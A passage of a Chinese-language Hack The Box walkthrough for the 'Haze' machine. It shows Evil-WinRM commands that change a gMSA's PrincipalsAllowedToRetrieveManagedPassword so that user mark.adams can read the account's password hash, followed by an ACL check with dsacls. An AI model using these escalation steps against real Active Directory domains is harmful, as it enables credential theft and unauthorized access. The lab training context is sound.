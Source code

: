 谁有权限查看他的密码，确实只有**Domain Admins**

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Domain Admins,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :
```

毕竟**mark**是**gMSA**管理员组的，尝试修改一下可读用户呢

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"

*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Mark Adams,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :
```

然后再去读取，可以发现成功。这里应该是有一个定时任务，因为过一会这个用户又无法读取了

![](./images/image-365.png)

尽管拿到了哈希值，但是无法通过**5985**端口连上去

为了验证**mark.adam**确实是有写入权限的，可以执行以下命令，查看**Backup**的访问控制表

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> dsacls "CN=HAZE-IT-BACKUP,CN=MANAGED SERVICE ACCOUNTS,DC=HAZE,DC=HTB"
```

